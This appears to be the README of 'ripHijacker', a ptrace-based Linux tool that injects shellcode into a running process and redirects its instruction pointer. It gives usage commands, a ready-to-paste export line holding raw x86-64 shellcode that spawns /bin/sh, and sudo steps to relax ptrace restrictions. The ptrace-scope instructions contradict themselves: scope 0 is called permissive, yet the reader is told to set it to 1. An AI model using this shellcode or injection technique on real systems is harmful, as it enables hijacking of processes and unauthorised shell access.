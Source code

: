 # ripHijacker
                       
Usage: ./ripHijacker -p <pid> [-e <environment_variable> -n <target_program name>]

-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p <target_pid>

..allow you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p <target_pid> -e <environment_variable> -n <target program name> 

..allow you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
-------------------------------------------------------------------------------------------------------------------------
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 1

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama

Obviously the target program must be compiled with the "-z execstack" option.

Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace.




